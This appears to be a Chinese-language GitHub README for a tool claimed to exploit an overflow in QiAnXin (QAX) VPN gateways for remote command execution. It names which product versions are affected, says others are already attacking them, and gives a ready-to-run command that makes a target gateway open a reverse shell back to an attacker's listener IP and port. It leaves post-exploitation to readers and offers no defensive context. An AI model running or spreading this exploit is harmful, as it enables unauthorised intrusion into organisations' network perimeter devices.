


# qianxin-vpn-pwn
奇安信 qax vpn pwn溢出 rce

已经看到有别的队伍在打了，预告一波，晚点放

## today


### 详情

某信vpn pwn溢出，可执行命令反弹shell，不过设备底层的系统阉割掉了很多东西，怎么后利用大家自己研究吧。

远古版本的3某0界面的vpn只有很小一部分能打，q某x界面的大多数都能打（23年3月发布的这款之前）


一键反弹：
```shell
java -jar QaxVpnPwn.jar -t vpn网关地址 -p vpn网关端口 -re_t 反弹监听ip -re_p 反弹监听端口

example：
java -jar QaxVpnPwn.jar -t vpn.xxx.com -p 443 -re_t x.x.x.x -re_p xxx
```






### 说明

1、pwn类型的洞没办法跟之前一样贴http数据包，想深入研究的可以自己逆向～

3、公关就删！


